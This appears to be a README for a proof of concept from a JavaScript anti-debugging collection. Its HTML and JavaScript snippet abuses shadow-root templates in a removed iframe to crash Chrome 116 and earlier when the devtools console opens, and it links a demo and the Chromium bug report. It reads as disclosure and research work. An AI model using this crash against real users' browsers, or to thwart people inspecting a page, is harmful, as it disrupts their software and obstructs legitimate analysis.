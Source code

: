 # Chromium Shadow Root Abuse

on Chrome <= 116, click "enable poc" then open the devtools console - chrome should crash entirely (was fixed to crash tab only) 

### POC

```html
<a href="?disable">disable poc</a>
<br>
<a href="?enable">enable poc</a>
<script>
const enabled = location.href.includes('disable');

(function() {
    const ifr = document.body.appendChild(document.createElement('iframe'));
    const template = ifr.contentWindow.document.createElement('html');
    !enabled && ifr.remove();
    template.innerHTML = `<my-element><template shadowroot="open"></template></my-element>`;
    const shadow = template.children[1].children[0].children[0];
    console.log(shadow);
})();
</script>
```
### Resources

- [Live DEMO!](https://weizmangal.com/awesome-javascript-anti-debugging/NewGenTechniques/ChromiumShadowRootAbuse/poc.html)
- [Bug report](https://bugs.chromium.org/p/chromium/issues/detail?id=1465129)
